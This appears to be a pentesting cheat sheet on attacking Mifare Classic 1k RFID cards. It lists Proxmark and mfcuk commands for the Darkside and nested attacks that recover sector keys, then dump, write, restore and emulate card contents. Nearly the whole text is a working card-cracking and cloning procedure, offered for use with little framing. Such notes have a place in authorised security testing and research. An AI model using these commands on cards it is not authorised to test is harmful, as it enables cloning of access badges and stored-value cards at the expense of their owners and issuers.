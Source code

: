 # HF - Mifare Classic

## HF - Mifare Classic 1k

New method for Proxmark : `hf mf autopwn`

### Darkside attack (PRNG Weak)

**Proxmark method**

```powershell
pm3> hf search
pm3> hf mfu
pm3> hf mf darkside  (fork command)
pm3> hf mf mifare    (original command)
Parity is all zero. Most likely this card sends NACK on every failed authentication. # Card is empty...
or
Found valid key:ffffffffffff # KEY_FOUND

pm3> hf mf chk 0 A KEY_FOUND    (Check Found Key On Block 0 A)
```

**ACR122u method**

```powershell
# start cracking the first key of the first sector. 
mfcuk -C -R 0:A -v 3 -s 250 -S 250
mfcuk -C -R 3:A -v 3 -s 250 -S 250 -o mycard.mfc
```

### Nested attack (PRNG Weak)

> Need to find a default key to extract the others

**Proxmark method**

```powershell
hf search
hf mf chk 1 ? t                      # "Test Block Keys" command which will test the default keys for us
hf mf nested 1 0 A a0a1a2a3a4a5 t.   # "Nested Attack" use the key a0a1a2a3a4a5, keeping the key in memory with "t"
hf mf chk * ?                        # "Test Block Keys" command which will test the default keys for us
hf mf nested 1 0 A ffffffffffff   d  # "Nested Attack" use the key ffffffffffff to extract the others (file:dumpkeys.bin)
hf mf dump 1                         # Dump content
hf mf restore 1                      # Restore content into the card
hf mf wrbl 5 A 080808080808 32110000cdeeffff3211000005fa05fa  # write on block 5, with the key 0808... the content 3211...
hf mf rdbl 5 A 080808080808          # Read block 5 with the keu 0808..


python pm3_mfd2eml.py dumpdata.bin dumpdata.eml
pm3> hf mf cload dumpdata
```
